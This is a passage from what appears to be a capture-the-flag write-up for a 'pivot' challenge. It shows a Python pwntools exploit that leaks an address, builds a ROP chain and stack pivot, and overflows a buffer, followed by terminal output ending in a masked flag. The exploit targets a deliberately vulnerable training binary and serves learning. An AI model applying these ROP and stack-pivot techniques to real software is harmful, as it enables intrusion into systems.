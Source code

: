 ```python
    p.recvuntil("pivot: 0x")
    addr = int(p.recv(12), 16)
    log.info("address received: 0x%x" % addr)

    p.recvrepeat(0.2)
    # stack pivot in heap
    stack_pivot = p64(foothold_plt)
    stack_pivot += p64(pop_rax)
    stack_pivot += p64(foothold_got)
    stack_pivot += p64(load_rax)
    stack_pivot += p64(pop_rbp)
    stack_pivot += p64(add_offset)
    stack_pivot += p64(add_rax_rbp)
    stack_pivot += p64(call_rax)

    log.info("sending heap data for the stack pivot")
    p.sendline(stack_pivot)
    p.recvrepeat(0.2)

    log.info("sending first bof - stack pivoting")
    # stack overflow, return to stack pivot
    stack_chain = p64(pop_rax)
    stack_chain += p64(addr)
    stack_chain += p64(xchg_rax)
    p.sendline("A" * 40 + stack_chain)
    p.recvuntil("foothold_function(), check out my .got.plt entry to gain a foothold into libpivot.so")
    log.success( p.recvall())


if __name__ == "__main__":
    exploit()

```

```bash
adamgold@adamgold-VirtualBox:~/Desktop/ctfs/pivot$ python exp.py
[+] Starting local process './pivot': pid 13106
13106
[*] address received: 0x7f2367d85f10
[*] sending heap data for the stack pivot
[*] sending first bof - stack pivoting
[+] Receiving all data: Done (33B)
[*] Process './pivot' stopped with exit code 0 (pid 13106)
[+] ROPE{********}
```
